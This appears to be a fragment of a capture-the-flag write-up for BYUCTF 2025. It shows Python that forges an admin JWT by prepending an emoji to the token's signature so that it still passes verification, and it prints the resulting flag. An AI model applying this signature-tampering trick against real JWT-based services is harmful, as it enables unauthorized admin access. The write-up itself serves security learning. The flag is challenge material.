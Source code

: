 ```python

APP_SECRET = os.urandom(32).hex()

jrl = jwt.encode({"admin": True, "uid": '1337'}, APP_SECRET, algorithm="HS256")
chunks = jrl.split(".")
modified = ".".join(chunks[:2] + ["😊" +chunks[2]])

print(jrl)
print(modified)

jwt.decode(jrl, APP_SECRET, algorithms=["HS256"])
jwt.decode(modified, APP_SECRET, algorithms=["HS256"])
```
Hence, all we need to do is add a smiley emoji before the start of our signature, giving us the flag.
![[Pasted image 20250518172305.png]]
`byuctf{idk_if_this_means_anything_but_maybe_its_useful_somewhere_97ba5a70d94d}`
# Post ctf lessons
Source code and author writeups at https://github.com/BYU-CSA/BYUCTF-2025
* Has some useful notes on running infra too

